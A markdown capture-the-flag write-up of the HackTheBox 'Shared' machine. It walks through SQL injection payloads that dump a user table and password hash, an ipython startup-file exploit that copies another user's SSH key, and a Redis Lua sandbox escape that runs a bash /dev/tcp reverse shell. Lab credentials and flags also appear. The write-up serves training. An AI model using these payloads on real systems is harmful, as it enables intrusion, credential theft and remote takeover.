

## Recon

### nmap 

```
# nmap -sC -sV -sS -A -p- --min-rate 5000 10.10.11.172 
```
- Result 
    - Port 22
    - Port 80
    - Port 443


### hosts file

- Edit hosts file with following content

```
10.10.11.172    shared.htb
```
### Enumeration

- Robots.txt
- Many Disallow part


- Browse website
    - Home Page - footbar -> PrestaShop
    - The Backend Framework is 'PrestaShop'


##### Presta Shop Research 

- [Official Site](#PrestaShop)
- Research for PrestaShop, I find these [vulnerbility article](#PrestaShop Exploit)

> PrestaShop is an Open Source e-commerce web application, committed to providing the best shopping cart experience for both merchants and customers.
> PrestaShop is based on PHP.

- Click the Product, the URL like follow
```
https://shared.htb/index.php?id_category=3&controller=category
```


- Clue: About this part, I think here might be a 'SQL Injection' attack.
- Proceed to 'check out' procedure from cart page, it was fail at first.


- Edit host file
```
10.10.11.172    shared.htb checkout.shared.htb
```
- Intercept in Burp

> Observe the request, when we click checkout in cart page, it will redirect to checkout page with 2 different cookie
> 1. PrestaShop-{Randomcode}: session cookie issued by PrestaShop Framework
> 2. custom_cart: record the target product information for backend to query in database, and record then transfer to checkout page. URL encoded.


- Checkout page
- The information in checkout page is 
    -  Product code 
    -  Quantity 
    -  Unit Price
    -  Total Price
    -  Credit Card Information
```
https://checkout.shared.htb
```


- But this page, I think is a static page, since the 'Pay' button only will show an alert message : "Your payment was successfully received"


- The normal checkout request like below
- The custom_cart decode will show the product code and quantity.


- Source code view in response


- If I add a quote(```'```) behind the product.
- It will return 200 OK but the content will show 'Not Found' in Response.


- I try to use other character (```>```), it still reply same result as above.


- But when I try the sql injection with following payload, it will reply normally(it won't reply 'Not Found').
```
' AND 1=1-- -
```
- It should be True Result, so the Response will show the product, quantity and amount. 


- And I try to change the payload to 
```
' AND 1=2-- - 
```
- It should be False result, so it shows 'Not Found' in Response.
- In here, I think the sql injection might be work.
- Let's try to get more information by sql injection.
## Exploitation

### SQL Injection

#### UNION SELECT

- Confirm the number of column

```
' AND 1=1 UNION SELECT 1-- - 
```


```
' AND 1=1 UNION SELECT 1,2-- -
```


```
' AND 1=1 UNION SELECT 1,2,3-- -
```


```
' AND 1=2 UNION SELECT 1,2,3-- -
```


```
' AND 1=1 UNION SELECT 1,2,@@version-- -
```


```
' AND 1=1 UNION SELECT 1,@@version,3-- -
```
- DB : 10.5.15-MariaDB-0+deb11u1


- Query Table syntax
```
' and 1=2 UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables-- -
```

- Result 
> ALL_PLUGINS, APPLICABLE_ROLES,
> CHARACTER_SETS, CHECK_CONSTRAINTS,
> COLLATIONS, COLLATION_CHARACTER_SET_APPLICABILITY,
> COLUMNS, COLUMN_PRIVILEGES,
> ENABLED_ROLES, ENGINES, EVENTS, FILES,
> GLOBAL_STATUS, GLOBAL_VARIABLES,
> KEYWORDS, KEY_CACHES, KEY_COLUMN_USAGE,
> OPTIMIZER_TRACE,
> PARAMETERS, PARTITIONS, PLUGINS,
> PROCESSLIST, PROFILING,
> REFERENTIAL_CONSTRAINTS, ROUTINES,
> SCHEMATA, SCHEMA_PRIVILEGES,
> SESSION_STATUS, SESSION_VARIABLES,
> STATISTICS, SQL_FUNCTIONS, SYSTEM_VARIABLES,
> TABLES, TABLESPACES, TABLE_CONSTRAINTS,
> TABLE_PRIVILEGES,TRIGGERS, USER_PRIVILEGES,
> VIEWS, CLIENT_STATISTICS,
> INDEX_STATISTICS,INNODB_SYS_DATAFILES,
> GEOMETRY_COLUMNS, INNODB_SYS_TABLESTATS,
> SPATIAL_REF_SYS, INNODB_BUFFER_PAGE, INNODB_TRX,
> INNODB_CMP_PER_INDEX, INNODB_METRICS,
> INNODB_LOCK_WAITS, INNODB_CMP,
> THREAD_POOL_WAITS, INNODB_CMP_RESET,
> THREAD_POOL_QUEUES,TABLE_STATISTICS,
> INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,
> INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,
> THREAD_POOL_GROUPS, INNODB_FT_CONFIG,
> INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,
> INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,
> INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,
> INNODB_CMPMEM_RESET, INNODB_FT_DEFAULT_STOPWORD,
> INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,
> USER_STATISTICS, INNODB_MUTEXES,
> INNODB_SYS_TABLESPACES, INNODB_SYS_VIRTUAL,
> INNODB_SYS_INDEXES,INNODB_SYS_SEMAPHORE_WAITS,
> INNODB_TABLESPACES_ENCRYPTION, INNODB_FT_DELETED,
> THREAD_POOL_STATS,
> user_variables, user, product


- The interesting tables are
    1. user_variables
    2. user
    3. product
```
' and 1=2 UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='user'-- -
```


```
' and 1=2 UNION SELECT 1,group_concat(username, password),3 FROM user WHERE id='1'-- -
```

```
' and 1=2 UNION SELECT 1,group_concat(username),3 FROM user WHERE id='1'-- -
```


```
' and 1=2 UNION SELECT 1,group_concat(password),3 FROM user WHERE id='1'-- -
```

> user : james_mason
> password : fc895d4eddc2fc12f995e18c865cf273

- Crack Password by online tools
- It's md5 hash
- Password: 
```fc895d4eddc2fc12f995e18c865cf273 / Soleil101```


### Get victim by SSH

- SSH Login by : james_mason / Soleil101, Success to login


- Check basic information in victim host (id/hostname/username)


- Check ```/etc/passwd```


- Check ```/etc/passwd``` with ```/bin/bash``` permission
- Here are 3 user with bash permission, root/james_mason(running now), dan_smith


- Since I have confirm there is no user flag in james_mason's directory, so maybe it needs to change to other user.


> Now, there are 2 ideas: 
    1. Privilege Escalation to root directly
    2. Get dan_smith permission first, then Privilege Escalation to root.
### Try to find foothold to Privilege Escalation 

- Check ```/var``` content, and find DB setting in ```/var/www/checkout.shared.htb/config```
- DB USER / PASSWORD : ```checkout  / a54$K_M4?DdT^HUk ```


##### Victim Network Stats
- [**Port 3306**]Check network status, Maria DB might listen on port 3306.
- [**Port 6479**]Here are another interesting port is port 6479


- After searching, port 6379 is Redis will default run on.


- Besides that, I can upload some scan tools to james home directory (```/home/james/mason```)
    1. linpeas.sh
        - Upload linpeas and change the file permission

        ```
        # wget 10.10.14.33:9999/linpeas.sh
        # chmod 777 linpeas.sh
        ```
        
        

        
        
        

    2. pspy64s
        - Upload linpeas and change the file permission
        ```
        # wget 10.10.14.33:9999/pspy64s
        # chmod 777 pspy64s
        ```
        
        
        

        
        
        
        
        
        
        
        
        
        
        
        
        
        
        

- With linpeas result:
    - In Useful Software section, I find that it allows to use python3 


- Also found in pspy64s result:
- Here is the same result as the above 'netstat', the redis server running on port 6379


- Besides that, there are 2 ipython related record
```
1. /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
2. /usr/bin/python3 /usr/local/bin/ipython
````
- According to pspy64s result, the ipython is run or killed by uid 1001.


- So, I know the server has installed python3 and ipython
- Here are some research about ipython CVE(CVE-2022-21699)
    - [SNYK Arbitrary Code Execution](https://security.snyk.io/vuln/SNYK-PYTHON-IPYTHON-2348630)
    - [(GITHUB)ipython code compare](https://github.com/ipython/ipython/commit/46a51ed69cdf41b4333943d9ceeb945c4ede5668)
    - [CVE-2022-21699](https://www.cve.org/CVERecord?id=CVE-2022-21699)
    - [(GITHUB)ipython security](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x)
- Check ipython version : 8.0.0
```
ipython --version
```


- According to linpeas result, the dan_smith's uid is 1001


- Besides that, it also show the ipython directory is stored in dan_smith. 
```
/hoome/dan_smith/.ipython/profile_default/startup/README
```


- Let's read the README file
> It descripe that the /profile_default/startup is a startup directory, and any .py or .ipy file locate in this directory will be run *prior* to any code or file via exec_lines or exec_files.


- So, we know any python(```.py```) or ipython (```.ipy```) file in this README directory wil be run first by exec_lines or exec_files.
- According to research on [(GITHUB)ipython security_ CVE-2022-21699](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x)
- Following the attack step 
```
mkdir -m 777 /tmp/profile_default
mkdir -m 777 /tmp/profile_default/startup
echo 'print("stealing your private secrets")' > /tmp/profile_default/startup/foo.py
```
- Since the ipython related command also mention a directory ```/opt/scripts_review ```in pspy 


- So, change the directory to below : 
```
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo "import os;os.system('cat ~/.ssh/id_rsa > ~/dan_smith.key')" > /opt/scripts_review/profile_default/startup/poc.py
```


- Then wait for the dan_smith's ssh key in james_mason directory 


- Using the ssh private key to login to dan_smith
```
ssh dan_smith@10.10.11.172 -i id_rsa
```


- Check id, and user flag 


- user flag
```992c7bce2ba2bb9e024dba8bba7895b3```


## Post Exploitation

### Information Gathering 
- Check the ```pspy64s``` result 
- it's easy to find ``` /usr/bin/redis-server 127.0.0.1:6379``` 


- Check Redis version: 6.0.15
```
redis-server -v
```


- Search Exploit on Redis 6.0.115


- According to writeup, I will observe the current user group from ```id```
- And it's easy to know the user : dan_smith belongs to 3 groups 
    1. dan_smith (1002)
    2. developer (1001)
    3. sysadmin (1003)


- Compare to james_mason, the different is on sysadmin


- Let's find out what's file group also is sysadmin
```find / -group sysadmin 2>/dev/null```
- So I find the "redis_connector_dev" in ```/usr/local/bin```


- It's a ELF file 


#### Redis Exploit 

- If I execute it, it will show redis information.


- And it will start from a interesting strings 
> Loggin to redis instance using password .... 
- Maybe the log will record the redis password
- And according some research in [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis), I know the redis-cli will need password 


- but I still not sure the log file location.
- I tried to copy redis_connector_dev to my host and execute it.
- Then I noticed that will failed, but the information will told us it try to connect to port 6379


- So I run nc on port 6379 to see what will happen.
- I get an interesting string: ```F2WHqJUz2WEz=Gqq```


- I think that's the redis password.
- So Back to victim, and try ``` redis-cli --pass F2WHqJUz2WEz=Gqq``` 
- And key ```INFO ``` in cli
- I think I got the legal user in cli.


- BTW, about the log file , with the following command in cli, I got the location 
```
CONFIG get *
```


- but I don't have enough permission


- Do more Research on [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis), I find out the possible vulnerbility is the Lua sandbox bypass part mention a CVE 


#### CVE-2022-0543

- According to this [Analyze Article](https://www.cnblogs.com/h0cksr/p/16189735.html), the root cause:  
>In Redis Server, there is a potential risk is the attacker connect to redis server, it can use 'eval' to execute 'lua script', but it only allow the script run in sandbox.
>So the main purpose of this CVE focus on 'Bypass the sandbox ' to read/write file.
>Attacker use the module 'liblua5.1.so.0' to load lua library to escape from sandbox then execute arbitrary command.

- Here is the detail exploit script

```
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r"); # command
local res = f:read("*a");
f:close();
return res
```

### Privilege Escalation

- From the above research, I get a script code can execute arbitrary command, but I also check other payload from Github.
    - [CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543/blob/main/CVE-2022-0543.py)

- But the same things is the payload will execute command in both of github and above article.
``` local f = io.popen("id", "r"); # command``` 
- And after I tried the payload script in victim host, it will failed to execute command.

- So I try to save the rev shell command to a file.
```
echo "bash -i >& /dev/tcp/{reverse ip address}/{reverse port} 0>&1" > /dev/shm/exp
```

- Using eval to load 'lua script' then execute the file which include the reverse shell

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gun/liblua5.1.sp.0", "luaopen_io"); local io =io_l(); local f = io.popen("cat /dev/shm/exp | bash"); local res = f:read("*a"); f:close(); return res' 0
```


- In attacker host, create a nc connection on target port to wait for the reverse shell


- Get reverse shell, check user and permission


- Visit to root directory 


- Get root flag:
``` 335f8a73a9bd5a89bb7212edeba9db23```


## Reference 
### Writeup

- [Writeup Shared HackTheBox](https://gatogamer1155.github.io/hackthebox/shared/)
- [HackTheBox Writeup: Shared](https://vato.cc/hackthebox-writeup-shared/)
- [(BreachForums) HTB Discussion: Shared](https://breached.to/Thread-Shared-HTB-Discussion--16135?page=3)

### Related Article

- [(HackTrick)6379 - Pentesting Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

### Exploit Tools

- [pspy](https://github.com/DominicBreuker/pspy/releases)
- [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list)

### Vulnerability 

#### PrestaShop

- [Official Site](https://www.prestashop.com/en)
- [(Github)Source Code](https://github.com/PrestaShop/PrestaShop)

##### PrestaShop Exploit

- [Major Security Vulnerability On PrestaShop Websites](https://build.prestashop-project.org/news/major-security-vulnerability-on-prestashop-websites/)
- [PrestaShop 1.6 Privilege Escalation](https://www.ambionics.io/blog/prestashop-privilege-escalation)
    - CVE-2018-13784

### iPython

- [(Snyk)Arbitrary Code Execution](https://security.snyk.io/vuln/SNYK-PYTHON-IPYTHON-2348630)
- [CVE-2022-21699](https://www.cve.org/CVERecord?id=CVE-2022-21699)
- [(MITRE)CVE-2022-21699](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-21699)
- [(GITHUB)CVE-2022-21699_iPython Source Code](https://github.com/ipython/ipython/commit/46a51ed69cdf41b4333943d9ceeb945c4ede5668)
- [Execution with Unnecessary Privileges in ipython](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x)
- [IPython 8.0.1 (CVE-2022-21699)](https://ipython.readthedocs.io/en/stable/whatsnew/version8.html#ipython-8-0-1-cve-2022-21699)


### Redis 

- [Redis](https://www.ge.com/digital/documentation/meridium/Help/V43060/Chunk305887639.html)

- [Redis Hacking Tips](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html)
- [redis-cli command](https://www.796t.com/content/1545330187.html)
- [Redis version check](https://docs.bitnami.com/installer/apps/redash/get-started/understand-default-config/)

#### CVE-2022-0543

- [How To Fix CVE-2022-0543- A Critical Lua Sandbox Escape Vulnerability In Redis](https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/)
- [CVE-2022-0543复现 | redis的远程代码执行漏洞](https://www.cnblogs.com/h0cksr/p/16189735.html)
- [(GITHUB)CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543/blob/main/CVE-2022-0543.py)
- [(YOUTUBE)Redis Sandbox Escape RCE Metasploit Module (CVE-2022-0543)](https://www.youtube.com/watch?v=N5J7laXlMuo)
- [Redis主从复制RCE影响分析](https://www.freebuf.com/articles/web/325035.html)
- [redis 主从复制 RCE](https://inhann.top/2021/09/14/redis_master_slave_rce/)

#### Exploit Github (Failed)

- [CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543)
    - Failed on redis lib missing
    

- [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)
    - Stuck on setting dbfilename
    


### Deeply explain about SQLi payload

- Here is a big question about mysql payload end with '-- -'
- since I always think the sqli payload need to end with comment start sign, and the comment start sign is one of the following list:
    1. ```/^```
    2. ```#```
    3. ```--```

- But I found some exploit payload end with the comment which is ```-- -``` recently
- I reaaly curious about why the space with dashed will be added?
- The following article solveed my question.


- [SQL Injection - MySQL comment: the double dash mystery](https://blog.raw.pm/en/sql-injection-mysql-comment/)


- [MySQL official Site explain](https://dev.mysql.com/doc/refman/8.0/en/comments.html)
- [1.6.2.4 '--' as the Start of a Comment](https://dev.mysql.com/doc/refman/8.0/en/ansi-diff-comments.html)

###### tags: `HackTheBox` `Shared` `linux` `SQL Injection` `SQLi`  `iPython Exploit` `Redis Server Exploit`